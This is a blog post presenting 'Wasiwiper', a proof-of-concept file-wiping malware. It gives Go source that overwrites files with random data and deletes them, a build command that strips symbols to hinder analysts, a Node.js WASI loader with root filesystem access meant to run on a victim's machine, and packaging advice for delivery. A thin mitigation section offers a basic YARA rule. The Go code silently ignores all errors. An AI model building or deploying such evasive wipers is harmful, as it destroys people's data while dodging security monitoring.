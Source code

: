 +++
date = '2025-03-31T19:41:01+02:00'
draft = false
title = 'Wasiwiper: WASM for Stealth Offensive Security'
+++

![wasmlogo](https://miro.medium.com/v2/resize:fit:612/1*igmwlOsICf5E1oNVyUZhoQ.png)

Yesterday, I was experimenting with the WASM technology in one of my gazillion side-projects. WASM stands for **WebAssembly** and is a binary instruction format that allows compiling and executing non-browser code in a browser environment. **Think of running C or C++ in your Browser**. I have used this technology for one project that I built using Rust.

Today morning It struck me with it... I had an insaneeee idea. What if we could write native malware using a backend language such as Golang or Rust and let it run in the browser without the os ever noticing that we are running native code in a browser-subprocess. So here am I yet again trying to pitch you another exotic malware method 😂. The plan is to write a primitive wiper that is supposed to use high-level Microsoft OS APIs and simply disk i/o to wipe files and overwrite them effectively using rand data.

## Part 1: Building the malware in the Host Language

For this PoC I will resort to building the wiper in Golang since it is super easy to compile to WASM. Here is the code for now:

```golang
package main

import (
	"crypto/rand"
	"os"
)

func wipe(filePath string) error {
	file, err := os.OpenFile(filePath, os.O_WRONLY, 0644)
	if err != nil {}
	defer file.Close()
	fileInfo, err := file.Stat()
	if err != nil {}
	size := fileInfo.Size()
	randomData := make([]byte, size)
	_, err = rand.Read(randomData)
	if err != nil {}
	_, err = file.WriteAt(randomData, 0)
	if err != nil {}
	file.Sync()
	file.Close()
	return os.Remove(filePath)
}

func main() {
	wipe("somedirectory")
}
```

As you see, this wiper is supeer primitive and will not be usable for a real-life full-scale attack. 

We now need to compile it down to the WASM target using the golang compiler. Parallely I will strip the debug symbols to shrink the resulting binary and make the life of a SOC Analyst harder.

```bash
GOOS=wasip1 GOARCH=wasm go build -o wiper.wasm -ldflags="-s -w"
```

After roughly a second or two, I was left with a neat wiper.wasm file. This is it. This is the bytecode that we technically could directly run using a WASM runtime. What we will do instead is, we will load the wasm file using a custom **NodeJS** script that will run on the victims host machine and which in its own turn will call the exported golang wiper functionality.

## Part 2: NodeJS Client-Side Loader

Here is a simply NodeJS wasm loader. I will facilitate the **WASI Runtime** which allows us to run wasm bytecode.

```javascript
const { WASI } = require('wasi');
const fs = require('fs');

const wasi = new WASI({
  version: 'preview1',
  args: process.argv,
  env: process.env,
  preopens: { '/': '/' } });
const wasmBuffer = fs.readFileSync('./wiper.wasm');

(async () => {
  const { instance } = await WebAssembly.instantiate(wasmBuffer, { wasi_snapshot_preview1: wasi.wasiImport });
  wasi.start(instance);
})();
```

We can run this using the following:

```bash
node loader.js
```

And we see, that it starts wiping out files from dirs where it has access to.

## Part 3: Delivery

Obviously we can not run this without including a NodeJS runtime in the payload. So we will simply package the NodeJS loader into something like [Electron](https://www.electronjs.org/) or [Nexe](https://github.com/nexe/nexe) to produce a standalone binary.

## Concluding

I think WASM malware can be very interesting since the processes will monitored as a browser / nodejs process. Obviously these kind of threats are very rare but still very stealthy since SOC Analysts and XDRs are used to native binary formats on not something like WASM. If additionally to stripping the debug symbols, we would have obfuscated the original golang code, this could add another layer of stealthyness to the wiper.

## Mitigation

I have no fu*cking idea on how you wanna mitigate this. Maybe you can and most likely want to block ElectronJS and NodeJS apps?. Or maybe your XDR can detect WASM binaries that are loaded in-memory. If so, apply these changes now! If not... well fuck. In this case simply use this YARA-Rule to adapt your IPS to.:

```bash
rule Detect_WASM {
    meta:
        description = "Detects potentially malicious WebAssembly (WASM) binaries"
        author = "Timo Sarkar"
        date = "2025-03-31"
        version = "1.0"
    strings:
        $wasm_magic = { 00 61 73 6D }
    condition:
        $wasm_magic
}
```
